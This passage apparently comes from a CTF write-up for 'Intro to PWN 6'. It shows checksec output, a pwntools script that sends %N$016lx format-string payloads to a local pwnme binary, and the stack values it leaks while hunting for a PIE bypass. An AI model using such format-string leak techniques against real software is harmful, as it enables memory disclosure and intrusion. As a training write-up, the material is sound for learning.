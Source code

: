 

#### <a name="pwn6"></a>Intro to PWN 6 - PWN - 280 points

The challenge reads:

```
#6. Using printf to create a leak
```

This time, were not given a leak outright, but we are given a format string vulnerability to create a leak:

```
$ ./pwnme
How about creating a leak? %2$016lx
0000000000000001
```

Cool, we need to know which stack argument is a leak that will help us defeat PIE because, again it is enabled:

```
$ checksec pwnme
    Arch:     amd64-64-little
    RELRO:    Full RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      PIE enabled
```

To find a useful stack argument I wrote this dirty script:

```python
from pwn import *

file = "./pwnme"

for i in range(1,10):
    payload = f"%{i}$016lx".encode()
    p = process(file)
    p.sendlineafter(b'?', payload)
    res = p.recv(16).decode()
    print(f"Result for {i}: {res}")
    p.close()
```

Running it I get:

```bash
$ PWNLIB_SILENT=1 ./findfmt.py
Result for 1: 0000000000000001
Result for 2: 0000000000000001
Result for 3: 00007f36267f2a80
Result for 4: 0000000000000000
Result for 5: 0000000000000000
Result for 6: 786c363130243625
Result for 7: 0000000000000000
Result for 8: 0000000000000000
Result for 9: 00005648eb2a822e
```
